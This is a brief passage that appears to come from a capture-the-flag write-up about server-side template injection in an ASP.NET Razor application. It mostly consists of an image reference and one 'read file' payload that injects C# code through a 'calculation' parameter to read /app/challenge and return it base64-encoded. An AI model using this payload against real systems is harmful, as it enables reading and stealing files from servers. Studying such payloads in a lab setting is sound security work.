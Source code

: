   result: ![GetFileSystemEntries](img/GetFileSystemEntries.png)

- Read file payload: `calculation=0)@using+System+@using+System.Text+@using+System.IO@{var+output=Convert.ToBase64String(Encoding.UTF8.GetBytes(File.ReadAllText("/app/challenge")));}@output@(0`:
